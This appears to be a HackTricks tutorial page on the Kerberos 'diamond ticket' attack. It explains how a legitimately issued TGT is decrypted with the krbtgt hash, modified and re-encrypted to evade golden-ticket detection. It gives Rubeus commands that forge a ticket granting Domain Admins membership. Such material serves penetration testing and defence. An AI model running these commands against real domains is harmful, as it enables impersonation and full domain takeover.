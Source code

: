 # Diamond Ticket

{{#include ../../banners/hacktricks-training.md}}

## Diamond Ticket

**Like a golden ticket**, a diamond ticket is a TGT which can be used to **access any service as any user**. A golden ticket is forged completely offline, encrypted with the krbtgt hash of that domain, and then passed into a logon session for use. Because domain controllers don't track TGTs it (or they) have legitimately issued, they will happily accept TGTs that are encrypted with its own krbtgt hash.

There are two common techniques to detect the use of golden tickets:

- Look for TGS-REQs that have no corresponding AS-REQ.
- Look for TGTs that have silly values, such as Mimikatz's default 10-year lifetime.

A **diamond ticket** is made by **modifying the fields of a legitimate TGT that was issued by a DC**. This is achieved by **requesting** a **TGT**, **decrypting** it with the domain's krbtgt hash, **modifying** the desired fields of the ticket, then **re-encrypting it**. This **overcomes the two aforementioned shortcomings** of a golden ticket because:

- TGS-REQs will have a preceding AS-REQ.
- The TGT was issued by a DC which means it will have all the correct details from the domain's Kerberos policy. Even though these can be accurately forged in a golden ticket, it's more complex and open to mistakes.

```bash
# Get user RID
powershell Get-DomainUser -Identity <username> -Properties objectsid

.\Rubeus.exe diamond /tgtdeleg /ticketuser:<username> /ticketuserid:<RID of username> /groups:512

# /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
# /ticketuser is the username of the principal to impersonate.
# /ticketuserid is the domain RID of that principal.
# /groups are the desired group RIDs (512 being Domain Admins).
# /krbkey is the krbtgt AES256 hash.
```

{{#include ../../banners/hacktricks-training.md}}




